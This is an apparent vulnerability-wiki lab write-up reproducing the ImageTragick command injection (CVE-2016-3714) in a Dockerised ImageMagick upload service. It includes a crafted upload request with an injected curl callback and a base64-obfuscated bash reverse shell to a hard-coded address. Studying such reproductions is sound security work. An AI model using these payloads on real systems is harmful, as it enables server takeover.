



# ImageMagick-命令执行漏洞-CVE-2016–3714

<!-- vulwiki-editorial-rebuild:system-misc -->
## 条目范围与校订

- 本文对象：ImageMagick MVG委托命令
- 文献类型：ImageTragick命令注入复现
- 版本、权限及部署边界：测试6.9.2-10 PHP上传转码；MVG/HTTPS委托及shell工具、网络出口和应用权限
- 核验状态：仅重建文本校订；未执行文中代码、PoC 或扫描，未把截图或转载声明记为本站复现

### 具体结论与待核项

以下为原归档的逐项勘误与证据缺口；可由文本确定的问题已在下文订正，仍缺来源的事实保持待核。

1. 与同目录3714短文同漏洞，不同HTTP/回连例子可合并保留环境与较好来源
2. 仅给测试版本无完整影响/修复版本与policy缓解；DockerCompose配置目录缺失
3. 回连只能/bin/bash不能bash是该环境PATH/调用方式观察不可泛化，示例本身管道也调用bash
4. 固定multipart长度、硬编码回连地址/端口应参数化标示；HTTP外联成功证明命令执行不等任意系统权限
5. 标题CVE用en dash与元数据hyphen不一致，规范名称；本地资源在Git树存在未视检

### 操作风险

原文技术操作的实际副作用未复现核验；按其请求/代码评估状态变更、凭据暴露和业务影响

技术请求、代码与实验方法按原文保留；其中的破坏性动作仅限授权、可恢复的隔离环境。缺失代码、参数或版本事实不猜补。

### 来源追溯

- 原文参考链接（未重新核验）：<https://www.leavesongs.com/PENETRATION/CVE-2016-3714-ImageMagick.html>
- 原文参考链接（未重新核验）：<https://github.com/ImageTragick/PoCs>
- 原文参考链接（未重新核验）：<http://your-ip:8080/`即可查看到一个上传组件>
- 原文参考链接（未重新核验）：<http://your-ip:8080>
- 原文参考链接（未重新核验）：<https://github.com/Threekiii/Vulnerability-Wiki>
- 原始披露 URL 未确认；既有归档来源标签保留，不能替代原始公告

### 归档技术正文

## 漏洞描述

ImageMagick是一款使用量很广的图片处理程序，很多厂商都调用了这个程序进行图片处理，包括图片的伸缩、切割、水印、格式转换等等。但近来有研究者发现，当用户传入一个包含『畸形内容』的图片的时候，就有可能触发命令注入漏洞。

参考链接：

- [https://imagetragick.com](https://imagetragick.com/)
- https://www.leavesongs.com/PENETRATION/CVE-2016-3714-ImageMagick.html
- https://github.com/ImageTragick/PoCs

## 环境搭建

执行如下命令启动一个包含了Imagemagick 6.9.2-10的PHP服务器：

```
docker-compose up -d
```

## 漏洞复现

访问`http://your-ip:8080/`即可查看到一个上传组件。

发送如下数据包：

```
POST / HTTP/1.1
Host: your-ip:8080
Content-Length: 321
Origin: http://your-ip:8080
Content-Type: multipart/form-data; boundary=----WebKitFormBoundaryGqvKmZLh7bp9gMc1
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/98.0.4758.102 Safari/537.36
Accept: */*
Accept-Encoding: gzip, deflate
Accept-Language: zh-CN,zh;q=0.9,en;q=0.8


------WebKitFormBoundaryGqvKmZLh7bp9gMc1
Content-Disposition: form-data; name="file_upload"; filename="avatar.jpg"
Content-Type: image/jpeg

push graphic-context
viewbox 0 0 640 480
fill 'url(https://127.0.0.0/oops.jpg"|curl "www.your-domain.cn:2333)'
pop graphic-context
------WebKitFormBoundaryGqvKmZLh7bp9gMc1--
```




`www.your-domain.cn`监听2333端口。可见，2333端口已经接收到http请求，说明curl命令执行成功：




反弹shell（只能使用`/bin/bash`反弹，不能使用`bash`反弹）：

```
push graphic-context
viewbox 0 0 640 480
fill 'url(https://127.0.0.0/oops.jpg?`echo L2Jpbi9iYXNoIC1pID4mIC9kZXYvdGNwLzEwLjQzLjIzNy42MS8yMzMzIDA+JjEK | base64 -d | bash`"||id " )'
pop graphic-context
```

监听2333端口，接收反弹shell：




---

> 来源：Threekiii/Vulnerability-Wiki（https://github.com/Threekiii/Vulnerability-Wiki）
